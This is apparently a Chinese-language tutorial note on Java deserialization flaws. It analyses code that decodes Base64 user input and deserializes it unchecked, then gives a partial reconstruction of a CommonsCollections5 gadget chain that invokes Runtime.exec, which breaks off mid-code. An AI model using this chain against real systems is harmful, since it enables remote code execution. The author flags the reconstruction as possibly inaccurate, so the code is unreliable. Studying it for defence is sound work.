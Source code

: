 > 这段代码直接反序列化输入的base64编码的数据
>
> - 1、**输入控制点**：`content`参数直接接收用户输入，经过Base64解码后直接进行反序列化操作。攻击者可以构造恶意的序列化对象，利用`readObject()`方法触发任意代码执行
>
> - 2、**Base64解码问题**：虽然代码处理了空格替换加号的问题（防止HTTP传输过程中加号被转义为空格），但没有对输入内容进行任何验证或过滤
>
> - 3、**危险的反序列化操作**：`java.io.ObjectInputStream`直接反序列化不可信数据，如果环境中存在可利用的Gadget Chain（如Apache Commons Collections），可能导致远程代码执行

所以当我们点击执行就会弹出计算器

执行流程

![image-20250817231341939](./images/Java反序列化/image-20250817231341939.png)

下面是对payload的还原，可能不准确，通过工具配合ai还原的

```java
// 核心漏洞利用链（基于CommonsCollections5）
import javax.management.BadAttributeValueExpException;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.*;
import org.apache.commons.collections.map.LazyMap;
import java.util.HashMap;
import java.lang.reflect.*;

public class MaliciousPayload {
    public static void main(String[] args) throws Exception {
        // 1. 构造Transformer调用链（核心攻击代码）
        Transformer[] transformers = new Transformer[] {
            new ConstantTransformer(Runtime.class),
            new InvokerTransformer("getMethod", 
                new Class[] {String.class, Class[].class}, 
                new Object[] {"getRuntime", new Class[0]}),
            new InvokerTransformer("invoke", 
                new Class[] {Object.class, Object[].class}, 
                new Object[] {null, new Object[0]}),
            new InvokerTransformer("exec", 
```